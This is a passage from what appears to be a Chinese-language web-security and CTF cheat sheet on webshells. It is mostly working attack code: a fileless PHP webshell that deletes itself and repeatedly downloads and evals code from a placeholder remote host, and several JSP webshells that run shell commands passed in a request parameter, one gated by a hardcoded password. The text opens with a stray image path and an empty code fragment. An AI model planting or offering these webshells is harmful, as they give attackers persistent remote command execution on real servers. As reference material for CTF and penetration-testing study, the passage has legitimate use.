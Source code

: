 ```php
?>

```

### 無文件webshell

解法：restart
```php
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```


## JSP Webshell

- 無回顯:

```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```

- 有回顯:

```
<%
if("kaibro".equals(request.getParameter("pwd"))) {
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
}
%>
```
```
127.0.0.1/test.jsp?i=whoami

<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%
    Process p = Runtime.getRuntime().exec(request.getParameter("i"));
    InputStream is = p.getInputStream();
    BufferedReader reader = new BufferedReader(new InputStreamReader(is));
    response.getWriter().println("-----------");
    String line;
    while((line = reader.readLine())!=null){
        response.getWriter().println(line);
    }
    
%>
```
